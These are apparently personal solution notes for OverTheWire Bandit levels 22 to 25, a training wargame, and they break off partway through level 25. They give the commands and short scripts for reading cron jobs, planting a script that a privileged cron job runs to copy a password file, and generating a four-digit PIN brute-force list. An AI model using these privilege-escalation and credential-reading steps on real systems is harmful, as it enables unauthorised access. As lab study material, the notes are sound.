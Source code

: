 ### Level 22

`cd /etc/cron.d; cat cronjob_bandit22; cat /usr/bin/cronjob_bandit22.sh`

`cat /tmp/t7O6lds9S0RqQh9aMcz6ShpAoZKF7fgv` #finally

### Level 23

`cat /etc/cron.d/cronjob_bandit23; cat /usr/bin/cronjob_bandit23.sh; echo I am user bandit23 | md5sum | cut -d ' ' -f 1`

`cat /tmp/8ca319486bfbbc3663ea0fbe81326349` #finally

### Level 24

`cat /etc/cron.d/cronjob_bandit24; cat /usr/bin/cronjob_bandit24.sh; mkdir -p /tmp/lmao; cd /tmp/lmao; vi test.sh`

code for test.sh:

```
#!/bin/bash
cat /etc/bandit_pass/bandit24 > password.txt
```

change permissions: `chmod 777 test.sh; chmod 666 password.txt`

`cp test.sh /var/spool/bandit24`

wait for a minute,

`cat password.txt`

### Level 25

`vi script.sh`

code for script.sh:

```
#!/bin/bash

for i in {0..9}
do
    for j in {0..9}
    do
        for k in {0..9} 
        do
            for l in {0..9}
            do
                echo $(cat /etc/bandit_pass/bandit24) $i$j$k$l >> brut.txt
            done
        done
    done
done
```
